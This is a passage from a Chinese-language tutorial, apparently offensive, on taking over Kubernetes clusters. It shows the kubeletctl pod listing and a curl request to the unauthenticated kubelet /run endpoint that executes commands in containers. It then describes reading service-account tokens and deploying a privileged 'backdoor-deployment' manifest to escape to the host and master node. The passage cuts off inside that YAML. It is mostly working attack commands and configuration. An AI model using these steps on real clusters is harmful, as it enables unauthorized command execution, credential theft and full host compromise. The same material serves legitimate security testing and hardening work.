 ```
./kubeletctl_linux_amd64 pods -s ip --port 10250
```

比如我们查到的信息如下

| POD               | NAMESPACE   | CONTAINERS                 |
| ----------------- | ----------- | -------------------------- |
| trace-a-lb-9fdfa  | kube-system | trace-a-df                 |
| calico-node-g8ack | kube-system | calico-node<br>install-cni |

**通过查到的信息，构造使用如下命令可以在指定Pod里执行命令**

```
curl -k https://ip:10250/run/$NAMESPACE/$POD/$CONTAINERS -d "cmd=whoami" --insecure
```

也即(这里我们使用的容器是install-cni，而不是calico-node，一个pod可以对应多个容器)

```
curl -k https://ip:10250/run/kube-system/calico-node-g8ack/install-cni -d "cmd=whoami" --insecure
```

进入容器后，就可以读取token，使用env命令获取api server地址，然后使用token访问api server。





## 4.  控制集群

除了kubelet未授权访问获取到的token权限较低外，Kubernetes API   Server未授权访问以及etcd未授权访问都可以通过后续操作控制集群，方式如下。

我们可以部署一个特权容器，然后逃逸到宿主机上，我们可以将部署的容器的污点调到master上，从而将特权容器部署到master节点上，逃逸出去就直接获取到了master节点的权限。



### 4.1 部署到普通节点上

```
kubectl -s https://ip:6443 --insecure-skip-tls-verify apply -f backdoor-deployment .yaml

#如果是token也可以使用kubectl --token
```

- backdoor-deployment.yaml

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: backdoor-deployment
  labels:
    app: backdoor-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: backdoor-deployment
  template:
    metadata:
      labels:
        app: backdoor-deployment
    spec:
      containers:
      - name: nginx
        image: nginx:1.14.2
        ports:
        securityContext:
          privileged: true
          capabilities:
```